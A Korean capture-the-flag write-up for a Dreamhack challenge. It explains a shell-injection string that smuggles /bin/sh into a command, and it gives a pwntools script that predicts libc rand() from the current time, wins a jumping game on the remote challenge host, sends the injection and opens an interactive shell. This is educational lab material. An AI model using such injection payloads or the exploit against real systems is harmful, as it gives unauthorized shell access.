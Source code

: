 ----------------

## 쉘 인젝션

고양이 이름 입력 시 다음과 같은 문자열을 넣어본다. **`asdf\";/bin/sh;echo\"`**    
이 문자열이 `%s`에 들어가면 `cmd`는 이렇게 된다: `echo "asdf";/bin/sh;echo"" > /tmp/cat_db`
    * `echo "asdf"`: 이 부분은 `asdf`를 출력한다.
    * `/bin/sh`: 쉘을 실행시키는 명령어이다. 
    * `echo"" > /tmp/cat_db`: `echo` 명령어가 빈 문자열을 `/tmp/cat_db`에 쓰는 역할을 한다. 앞의 `/bin/sh`가 실행된 후 뒤의 `echo` 명령어도 정상적으로 실행된다. 즉 'asdf'가 출력되면 쉘이 따진 것을 확인할 수 있다. 

----------------


## 익스플로잇 코드

```python
from pwn import *
from ctypes import CDLL

r = remote("host3.dreamhack.games", 12452)

context.log_level = "debug"

libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6') 
libc.srand(libc.time(0x00)+1)

r.recvuntil(b"let the cat reach the roof! ")
sleep(1)

for i in range(37):
    rand = libc.rand() % 2

    if(rand == 0):
        r.sendlineafter(b"left jump='h', right jump='j': ", b'l')
        
    else:
        r.sendlineafter(b"left jump='h', right jump='j': ", b'h')
    
    libc.rand()

r.sendlineafter(b":", b"asdf\";/bin/sh;echo\"")

r.interactive()
```

원격 서버에서는 로컬의 코드를 실행하는 시점과 서버에서 `rand()`를 호출하는 시점에 약간의 시간 차이가 발생할 수 밖에 없다.   
이걸 체크하고 time을 조정하려고 debug 로그를 출력하도록 넣어놨다.  


-------------

## 실행 결과

<img width="980" height="432" alt="image" src="https://github.com/user-attachments/assets/9966f5e2-7533-4cea-a584-0a20686a516a" />

이렇게 플래그를 구할 수 있다. 
